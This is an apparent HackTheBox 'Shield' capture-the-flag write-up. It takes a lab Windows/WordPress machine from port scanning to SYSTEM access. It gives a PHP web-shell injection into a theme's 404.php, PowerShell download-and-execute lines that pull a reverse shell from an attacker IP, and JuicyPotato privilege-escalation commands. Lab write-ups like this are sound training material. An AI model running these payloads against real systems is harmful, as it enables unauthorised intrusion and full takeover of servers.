




HackTheBox - Shield Writeup
Table of Contents
Enumeration
- scan top 1000 ports
- the result
nmap -sC -sV -oN nmap/initial 10.10.10.29

- scan all ports
- the result
nmap -sC -sV -p- -oN nmap/all_ports 10.10.10.29

- all scan still the same
- open ports
- 80 / http
- 3306 / mysql
WebPage
- Just default windows server page

Gobuster
- Using gobuster to find any hidden directory
- the result

WordPress
- the result show this server have
wordpressinstall - as we know, the wordpress login path is
/wp-admin - let’s take a look
Admin Login
- Try to login as admin with credentials from previous box
vaccine - Success

Foothold/Gaining Access
WordPress Theme Injection
- Let’s try get the reverse shell by injected the theme
- I’m gonna use this theme “GutenBooster”
- and the shell I’m gonna use Nishang
- Now, I’m gonna put command in the
404.php. - Which is a 404 template
- Source
<?php
exec('powershell IEX(IWR http://10.10.16.13:8000/rev.ps1 -UseBasicParsing)')
?>
- This command will download the reverse shell and execute it

- Well, the reverse shell is succefully execute
SeImpersonatePrivilege
-
everytime you’ve got
powershell reverse shell -
make sure to run
whoami /all
-
The result

- Looks like
SeImpersonatePrivilege is enable - We can privesc by using
juicy potato - Source
- download the binary into
local machine. Then, upload intovictim machine - via this command
IWR http://10.10.16.34:8000/JuicyPotato.exe -outfile again_gimme.exe
- then run the binary.
- the result

Privilege Escalation
- First, I’m gonna make
batfile with powershell command on it. - I’m called the file
yo_my.bat - the command:
- Source
powershell "(IEX(IWR http://10.10.16.34:8000/rev.ps1 -UseBasicParsing))"
POTATO
-
I’m gonna run
again_gimme.exeagain with this flag:./again_gimme.exe -t * -p yo_my.bat -l 9902
-
the result

- it is failed but we can try with more
CLSID - Source
- before we start using the CLSID. We’re need to know what type of
OS versionthis machine running on - by using this command:
(Get-WmiObject Win32_OperatingSystem).Caption- the result

- Now, we’re need to pick Windows Server 2016 Standard CLSID
- I’m gonna try with
wpnservice CLSID - I’m gonna run this command
.\again_gimme.exe -t * -p yo_my.bat -l 9902 -c '{7A6D9C0A-1E7A-41B6-82B4-C3F7A27BA381}'
NOTE: Make sure you’re running the nc for listening the connection
REMEMBER: The powershell command in the
bat filewas downloading another reverse shell file calledrev.ps1. in that file. I’m listening on 9901. If you listen on the other port. Just change the port on that file.
- the result

- we’ve got the root flag

Conclusion
I’ve learned a lot today. Do not put any credentials on the exposure machine to the hacker or non-secure machine. Even tho it’s happened, quickly change the password. I’m also introducing a bunch of tools for windows pentest/hack. Lastly, always update and patch the machine.
I have a fun time doing this machine and I hope you guys do too. Bye ;)